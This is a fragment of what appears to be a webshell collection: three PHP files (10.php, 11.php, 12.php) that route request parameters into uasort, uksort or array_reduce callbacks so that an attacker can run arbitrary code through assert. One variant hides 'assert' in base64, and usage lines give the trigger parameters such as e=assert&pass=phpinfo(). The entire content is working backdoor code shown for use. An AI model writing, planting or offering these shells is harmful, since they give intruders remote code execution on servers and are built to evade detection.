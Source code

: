 
#### 10.php

```php
# PHP5>=5.4.0,PHP7
# password: e=YXNzZXJ0&pass=
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array('test', $_REQUEST['pass']);
	uasort($arr, base64_decode($e));
?>
```

#### 11.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array('test' => 1, $_REQUEST['pass'] => 2);
	uksort($arr, $e);
?>
```

#### 12.php

```php
### password:e=assert&pass=phpinfo()
```

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array(1);
	array_reduce($arr, $e, $_POST['pass']);
?>
```
